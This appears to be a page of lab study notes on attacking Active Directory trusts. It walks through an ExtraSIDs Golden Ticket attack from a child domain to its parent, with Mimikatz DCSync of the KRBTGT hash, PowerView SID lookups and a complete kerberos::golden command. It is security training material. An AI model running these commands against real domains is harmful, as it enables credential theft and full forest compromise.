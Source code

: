 ```bash
Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
```

#### Domain Trusts - Child -> Parent Trusts

A **Golden Ticket Attack** occurs when an attacker compromises the **KRBTGT** account in an Active Directory (AD) domain, allowing them to forge **Kerberos Ticket-Granting Tickets (TGTs)** and gain persistent access.

The **ExtraSIDs Attack** extends this by adding extra **Security Identifiers (SIDs)** to a forged ticket, allowing attackers to escalate privileges or gain access to resources in other domains/forests.
#### ExtraSIDs Attack

**(LOGISTICS.INLANEFREIGHT.LOCAL --> INLANEFREIGHT.LOCAL)**

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

The KRBTGT hash for the child domain:

```bash
lsadump::dcsync /user:LOGISTICS\krbtgt

Hash NTLM: 9d765b482771505cbe97411065964d5f
```

The SID for the child domain:

```bash
Import-Module .\PowerView.ps1
Get-DomainSID

S-1-5-21-2806153819-209893948-922872689
```

The name of a target user in the child domain (does not need to exist!):  `hacker`

The SID of the Enterprise Admins group of the root domain:

```bash
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

With this information, we can now generate a `Golden Ticket`. In Mimikatz:

```bash
kerberos::golden /user:hacker /domain:<Our_current_child_domain> /sid:<sid_of_child_domain> /krbtgt:<krbtgt_NTLM_hash> /sids:<sid_of_enterprise_admins_group> /ptt
```
